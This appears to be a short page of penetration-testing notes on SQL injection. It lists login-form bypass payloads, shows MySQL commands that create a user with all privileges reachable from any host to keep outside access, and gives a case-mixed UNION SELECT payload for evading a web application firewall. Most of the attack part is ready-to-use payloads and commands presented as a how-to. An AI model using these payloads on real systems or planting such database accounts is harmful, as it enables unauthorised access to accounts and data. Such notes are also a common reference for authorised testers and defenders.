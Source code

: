 First we produce an error with either \['] or \[''] and see how the web app reacts.

### SQL Injection in Login forms

When it comes to login forms, we can try the following SQL payloads manually first

```
root' or 1=1##

' or 1=1 -- #

' or ''='

' or 1--

') or true--

" or true--

") or true--

')) or true—

```

Tip: Sometimes mysql is exposed to the public but you can’t connect to it from the internet due to a security precaution. The resolution to this issue is to have access to the machine That hosts the mysql server. Login to the mysql server and create a user to use it to login from outside the network

```
mysql> CREATE USER 'user'@'localhost' IDENTIFIED BY 'some_pass';
```

```
mysql> GRANT ALL PRIVILEGES ON *.* TO 'user'@'localhost'
    ->     WITH GRANT OPTION;
```

```
mysql> CREATE USER 'user'@'%' IDENTIFIED BY 'some_pass';
```

```
mysql> GRANT ALL PRIVILEGES ON *.* TO 'user'@'%'
    ->     WITH GRANT OPTION;
```

### Bypassing SQL Filters

#### UNION Filters

Lets say we are testing a login form and it returns an error whenever we try to execute UNION SELECT. This suggest that there is a WAF filtering the queries so we would use Union instead.

```
Email=’ UNion select 1,2,3,concat(command, "@test.com") -- -
```
